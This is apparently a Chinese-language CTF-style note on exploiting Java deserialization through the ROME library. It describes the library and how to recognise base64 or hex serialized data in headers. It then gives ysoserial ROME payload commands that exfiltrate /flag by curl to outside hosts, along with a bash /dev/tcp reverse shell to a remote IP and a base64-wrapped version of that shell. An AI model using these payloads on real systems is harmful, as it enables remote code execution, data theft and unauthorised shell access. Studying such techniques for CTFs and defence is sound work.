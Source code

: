 ## **ROME反序列化**
ROME它指的是一个有用的工具库，帮助处理和操作XML格式的数据。ROME库允许我们把XML数据转换成Java中的对象，这样我们可以更方便地在程序中操作数据。另外，它也支持将Java对象转换成XML数据，这样我们就可以把数据保存成XML文件或者发送给其他系统。

ROME的应用场景包括新闻聚合应用、博客平台的RSS输出、数据分析等，它可以帮助开发者从多个源抓取并处理RSS或Atom feeds，以实时更新内容，也可以用于创建和维护博客的RSS输出，以便读者订阅。


他有个特殊的位置就是ROME提供了ToStringBean这个类，提供深入的toString方法对Java Bean进行操作。
```
<dependencies>
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
 </dependencies>
```

<https://xz.aliyun.com/t/13286?u_atoken=bcc44563e868bc8bbf88f038f56e5316&u_asig=1a0c39a017285446910872366e0133>

## **利用**
入口：
下方的特征可以作为序列化的标志参考：
一段数据以rO0AB开头，你基本可以确定这串就是Java序列化base64加密的数据。
或者如果以aced开头，那么他就是这一段Java序列化的16进制。
所以这串数据可能会被服务端拿去反序列化。

比如一个Authorization头是这样的，不是标准jwt，可能是序列化后的用户类
```
Authorization Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkbWlu
```


```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME "curl http://vps:7015 -d @/flag" > a.bin
java -jar ysoserial.jar ROME "curl http://1.2.90.186:1234 -d @/flag" |base64

bash -i >& /dev/tcp/111.111.111.111/7015 0>&1
进行base64编码，YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMTExLjExMS4xMTEvNzAxNSAwPiYx

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMTExLjExMS4xMTEvNzAxNSAwPiYx}|{base64,-d}|{bash,-i}" > a.bin
```